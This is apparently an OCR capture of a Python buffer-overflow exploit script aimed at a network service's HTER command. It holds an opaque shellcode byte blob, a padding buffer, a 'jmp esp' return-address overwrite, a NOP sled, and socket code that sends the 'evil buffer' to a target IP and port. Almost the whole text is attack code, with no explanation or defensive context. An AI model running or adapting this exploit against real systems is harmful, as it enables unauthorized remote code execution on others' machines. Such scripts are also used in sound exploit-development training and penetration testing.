 ```python
payload += b"\xdb\xcf\xd9\x74\x24\xf4\x5a\xbb\x52\xbf\xb0\x52"
payload += b"\x33\xc9\xb1\x52\x83\xea\xfc\x31\x5a\x13\x03\x08"
payload += b"\xac\x52\xa7\x50\x3a\x10\x48\xa8\xbb\x75\xc0\x4d"
payload += b"\x8a\xb5\xb6\x06\xbd\x05\xbc\x4a\x32\xed\x90\x7e"
payload += b"\xc1\x83\x3c\x71\x62\x29\x1b\xbc\x73\x02\x5f\xdf"
payload += b"\xf7\x59\x8c\x3f\xc9\x91\xc1\x3e\x0e\xcf\x28\x12"
payload += b"\xc7\x9b\x9f\x82\x6c\xd1\x23\x29\x3e\xf7\x23\xce"
payload += b"\xf7\xf6\x02\x41\x83\xa0\x84\x60\x40\xd9\x8c\x7a"
payload += b"\x85\xe4\x47\xf1\x7d\x92\x59\xd3\x4f\x5b\xf5\x1a"
payload += b"\x60\xae\x07\x5b\x47\x51\x72\x95\xbb\xec\x85\x62"
payload += b"\xc1\x2a\x03\x70\x61\xb8\xb3\x5c\x93\x6d\x25\x17"
payload += b"\x9f\xda\x21\x7f\xbc\xdd\xe6\xf4\xb8\x56\x09\xda"
payload += b"\x48\x2c\x2e\xfe\x11\xf6\x4f\xa7\xff\x59\x6f\xb7"
payload += b"\x5f\x05\xd5\xbc\x72\x52\x64\x9f\x1a\x97\x45\x1f"
payload += b"\xdb\xbf\xde\x6c\xe9\x60\x75\xfa\x41\xe8\x53\xfd"
payload += b"\xa6\xc3\x24\x91\x58\xec\x54\xb8\x9e\xb8\x04\xd2"
payload += b"\x37\xc1\xce\x22\xb7\x14\x40\x72\x17\xc7\x21\x22"
payload += b"\xd7\xb7\xc9\x28\xd8\xe8\xea\x53\x32\x81\x81\xae"
payload += b"\xd5\xa4\x55\xb2\x6a\xd1\x57\xb2\x74\x14\xd1\x54"
payload += b"\x1e\x46\xb7\xcf\xb7\xff\x92\x9b\x26\xff\x08\xe6"
payload += b"\x69\x8b\xbe\x17\x27\x7c\xca\x0b\xd0\x8c\x81\x71"
payload += b"\x77\x92\x3f\x1d\x1b\x01\xa4\xdd\x52\x3a\x73\x8a"
payload += b"\x33\x8c\x8a\x5e\xae\xb7\x24\x7c\x33\x21\x0e\xc4"
payload += b"\xe8\x92\x91\xc5\x7d\xae\xb5\xd5\xbb\x2f\xf2\x81"
payload += b"\x13\x66\xac\x7f\xd2\xd0\x1e\x29\x8c\x8f\xc8\xbd"
payload += b"\x49\xfc\xca\xbb\x55\x29\xbd\x23\xe7\x84\xf8\x5c"
payload += b"\xc8\x40\x0d\x25\x34\xf1\xf2\xfc\xfc\x11\x11\xd4"
payload += b"\x08\xba\x8c\xbd\xb0\xa7\x2e\x68\xf6\xd1\xac\x98"
payload += b"\x87\x25\xac\xe9\x82\x62\x6a\x02\xff\xfb\x1f\x24"
payload += b"\xac\xfc\x35"

buf = b""
buf += b"HTER "
buf += b"f"
buf += b"41" * 1020
buf += b'af115062' # jmp esp
buf += bytes_to_hexbytestring(NOP * 16)
buf += bytes_to_hexbytestring(payload)
buf += b"44" * (size - int(len(buf) / 2))
buf += b"\n"

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# receive banner
banner = s.recv(1024)
print(banner)

# send evil buffer
print(f"Sending evil buffer with {len(buf)} bytes and payload length {size}...")
s.send(buf)

# receive response
a = s.recv(1024)
print(a)

s.close()
print("Done!")
```
